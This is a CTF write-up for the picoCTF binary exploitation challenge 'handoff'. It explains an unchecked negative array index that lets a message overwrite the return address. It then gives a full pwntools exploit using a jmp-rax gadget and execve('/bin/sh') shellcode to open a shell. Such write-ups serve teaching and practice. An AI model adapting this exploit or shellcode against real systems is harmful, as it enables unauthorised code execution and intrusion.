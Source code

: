 ```yaml
---
title: handoff
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: picoCTF{REDACTED}
---
```

> No description.

by SkrubLawd

---

We are given a binary and the source code for it. The binary is a simple program that allows us to add recipients and send messages to them.

```c
else if (choice == 2) {
    choice = -1;
    puts("Which recipient would you like to send a message to?");
    if (scanf("%d", &choice) != 1) exit(0);
    getchar();

    if (choice >= total_entries) {
        puts("Invalid entry number");
        continue;
    }

    puts("What message would you like to send them?");
    fgets(entries[choice].msg, MSG_LEN, stdin);
}
```

In the `vuln` function, we can see that the program reads a message into the recipient's message buffer using `fgets`. The choice is not sanitized, so we can send a message to the recipient at index `-1`.

Where when we send a message to the recipient at index `-1`, the `RAX` register will be set to the address of the message buffer and after 40 bytes, the `RIP` will be overwritten. We can use [ret2reg](https://ir0nstone.gitbook.io/notes/binexp/stack/reliable-shellcode/ret2reg/using-ret2reg) method where we can jump to the `RAX` register which contains the shellcode.

```py
from pwn import *

binary = './handoff'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('shape-facility.picoctf.net', 54989)

def add_entry(name):
    r.sendlineafter(b'What option would you like to do?', b'1')
    r.sendlineafter(b'What\'s the new recipient\'s name: ', name)

def add_message(choice, message):
    r.sendlineafter(b'What option would you like to do?', b'2')
    r.sendlineafter(b'Which recipient would you like to send a message to?', choice)
    r.recvuntil(b'What message would you like to send them?')
    print(f'Len: {len(message)}')
    r.sendline(message)

def exit(feedback):
    r.sendlineafter(b'What option would you like to do?', b'3')
    r.sendlineafter(b'Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it:', feedback)

JMP_RAX = 0x000000000040116c

shellcode = asm('''
    mov rax, 0x3b
    mov rdi, 0x0068732f6e69622f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
''')

payload = flat([
    shellcode.ljust(40, b"\00"),
    JMP_RAX,
])
add_message(b'-1', payload)
r.interactive()
```
